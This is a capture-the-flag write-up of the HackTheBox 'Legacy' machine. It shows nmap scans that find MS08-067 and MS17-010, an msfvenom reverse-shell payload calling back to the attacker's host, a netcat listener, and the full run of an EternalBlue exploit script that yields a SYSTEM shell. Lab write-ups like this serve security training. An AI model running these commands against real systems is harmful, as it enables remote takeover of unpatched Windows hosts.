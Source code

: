 # Legacy

## IP
The IP address for this machine on HackTheBox was `10.10.10.4`.

## NMap Scan
```
sudo nmap -A 10.10.10.4 -p139,445 -vv
...
...
PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Windows XP microsoft-ds
```

This time with NSE Scripts turned on...
	
``` 
kali@kali:~$ sudo nmap -A 10.10.10.4 -p139,445 --script=smb-vuln-* -vv
...
...
PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2000|XP|2003 (90%)
...
...
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.***
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14 
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
...
... 
```

## MS17-010 (CVE-2017-0143)
This is Eternal Blue. At this point, I got stuck and followed Rana Khalil's walkthrough (https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit). I downloaded Impacket into my Ptyhon2.7 directory along with https://github.com/helviojunior/MS17-010.git exploit code. 

From there, I created a reverse Windows TCP shell using meterpreter:

```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse-shell.exe```

This creates a reverse Windows TCP shell called "reverse-shell.exe" that attempts to connect to my local machine on port 4444.

## Exploit
From there I started a Netcat listener on port 4444:

```nc -nlvp 4444```

And using helviojunior's ***send_and_execute.py*** script, sent the exploit to the target machine:

```
kali@kali:~/Desktop/OSCP/Legacy/MS17-010 manual exploit/MS17-010-master$ python send_and_execute.py 10.10.10.4 ../../reverse-shell.exe 
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8200d010
SESSION: 0xe105dde8
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1adbf10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1adbfb0
overwriting token UserAndGroups
Sending file ON6AFZ.exe...
Opening SVCManager on 10.10.10.4.....
Creating service JUNd.....
Starting service JUNd.....
The NETBIOS connection with the remote host timed out.
Removing service JUNd.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

Catch on the listener:

```
kali@kali:~/Desktop/OSCP/Legacy$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

This exploit automatically escalates to administrator rights on the target and from there it's just navigating to the proper directories to grab the user and root flags.
